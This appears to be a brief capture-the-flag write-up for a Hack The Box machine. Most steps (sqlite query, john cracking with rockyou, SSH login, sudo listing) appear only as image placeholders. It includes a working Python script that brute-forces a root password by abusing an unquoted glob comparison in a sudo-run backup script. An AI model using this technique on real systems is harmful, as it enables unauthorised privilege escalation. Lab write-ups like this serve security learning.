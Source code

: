 Using sqlite3

![[Untitled 124 2.png|Untitled 124 2.png]]

Using john and the rockyou dictionary

![[Untitled 125 2.png|Untitled 125 2.png]]

Now lets connect with SSH

![[Untitled 126 2.png|Untitled 126 2.png]]

Listed sudo permissions

![[Untitled 127 2.png|Untitled 127 2.png]]

This is what the script haves

![[Untitled 128 2.png|Untitled 128 2.png]]

As we can see, the script checks for a password, but this password is not in quotation marks, so it is not a string.

![[Untitled 129 2.png|Untitled 129 2.png]]

I tried entering an asterix * and the “password” worked

![[Untitled 130 2.png|Untitled 130 2.png]]

So what we can try is to test every letter

THE MACHINE WAS UNSTABLE, IT DROPS THE SSH CONNECTIONS, SO ONCE I SAW THE SCRIPT WORKED I GRABBED THE PASS AND THE ROOT FLAG FROM A WRITEUP

HTB FREE IS BULLSHIT

I had to use the script step by step

- Script
    
    ```Python
    import string
    import subprocess
    all = list(string.ascii_letters + string.digits)
    password = "kljh12k3jhaskjh12kjh3"
    found = False
    
    while not found:
        for character in all:
            command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
            output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout
    
            if "Password confirmed!" in output:
                password += character
                print(password)
                break
        else:
            found = True
    ```
    
